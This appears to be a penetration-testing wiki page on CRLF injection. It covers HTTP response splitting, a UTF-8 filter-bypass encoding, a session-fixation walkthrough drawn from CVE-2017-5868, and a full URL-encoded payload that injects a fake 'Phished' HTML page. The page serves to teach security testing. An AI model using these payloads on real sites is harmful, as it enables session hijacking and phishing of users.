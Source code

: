 ```yaml
---
authors: 'KenjiEndo15, ShutdownRepo'
category: web
---
```


# 🛠️ CRLF injection

## Theory

CRLF represents termination of line:

* CR = Carriage Return (`\r`)
* LF = Line Feed (`\n`)

Windows and the protocol HTTP uses the CRLF however, Linux doesn't (it only uses LF). The CRLF injection is a type of attack where an attacker injects a termination of line into an application (via HTTP or URL) to provoke other types of vulnerability (HTTP Response Splitting, Log Injection...).

## Practice

### HTTP Response Splitting

#### Reconnaissance

Important: before even considering a CRLF injection, testers have to find any data that is sent in a request and reflected in the response (that follows the previous request). \
An example by [SecureFlag](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html) considers an application that in case of error (`/?error=Page+Not+found`), redirects the user using the `Location` HTTP header while reflecting the value of the `error` parameter:

```bash
# Response (due to an application error)
HTTP/1.1 301 Moved Permanently
Location: /index?error=Page+Not+Found
```

From cases similar to this one, testers have to find a place where CRLF injection is possible, such as:

* URL: `https://example.com/<CRLF_injection>`
* Query parameter: `https://example.com/lang=en<CRFL_injection>`

Upon using a CRLF injection, testers can inject arbitrary HTTP headers.

Filter bypass: one can [bypass filters](https://blog.innerht.ml/twitter-crlf-injection/) using UTF-8 encoding

* CRLF = %E5%98%8A%E5%98%8D

#### Session fixation

A good example of session fixation (with CRLF injection) comes from the CVE-2017-5868 and is explained in this [post](https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/).

1. An attacker notice that the parameter `__session_start` in OpenVPN is vulnerable to CRLF injection.
2. The attacker crafts an URL by setting a cookie:

 ```
https://example.com/__session_start__/<CRLF_injection>Set-Cookie:<Cookie>[...]
 ```
3. The attacker sends this crafted URL to a victim.
4. The victim opens the URL and authenticates itself. Once authenticated, the cookie will be associated with its session.
5. The attacker can now use the cookie with the fixed session to access the victim's profile.

#### Cross-Site Scripting (XSS)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection) has an interesting payload to write a document, and therefore include an XSS.

Requested page:

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response:

```
Set-Cookie:en
Content-Length: 0
​
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34
​
<html>You have been Phished</html>
```

## Resources

[https://www.acunetix.com/websitesecurity/crlf-injection/](https://www.acunetix.com/websitesecurity/crlf-injection/)

[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)

[https://owasp.org/www-community/vulnerabilities/CRLF_Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

[https://www.srccodes.com/log-forging-by-crlf-log-injection-owasp-security-vulnerability-attacks-crlf//](https://www.srccodes.com/log-forging-by-crlf-log-injection-owasp-security-vulnerability-attacks-crlf//)

[https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/](https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/)

[https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html)

[https://blog.innerht.ml/overflow-trilogy/](https://blog.innerht.ml/overflow-trilogy/)

[https://blog.innerht.ml/twitter-crlf-injection/](https://blog.innerht.ml/twitter-crlf-injection/)

[https://www.geeksforgeeks.org/crlf-injection-attack/](https://www.geeksforgeeks.org/crlf-injection-attack/)
